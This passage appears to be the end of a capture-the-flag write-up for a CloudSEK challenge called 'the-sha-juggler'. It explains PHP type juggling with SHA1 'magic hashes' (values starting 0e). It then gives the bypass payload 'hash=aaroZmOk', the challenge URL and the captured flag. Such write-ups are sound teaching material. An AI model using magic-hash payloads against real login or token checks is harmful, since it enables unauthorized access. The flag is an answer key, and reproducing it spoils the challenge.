Now because this sha1 hash of "10932435112" start with `0e0` it will be trated as "0" because 0^anythig is 0. so any string which have sha1 hash starting with 0e and followed by any number will be treated as "0" and it will pass the condition.

Reference for this type of hashes: https://github.com/spaze/hashes/blob/master/sha1.md

This hashes are also known as magic hashes

here I'm using the payload: `hash=aaroZmOk`

```
https://webctf.cloudsek.com/the-sha-juggler/you_found_me.php?hash=aaroZmOk
```

Flag: `CSEK{typ3_juggl1ng_1n_php}`


<br />

:octocat: Happy Hacking :octocat:
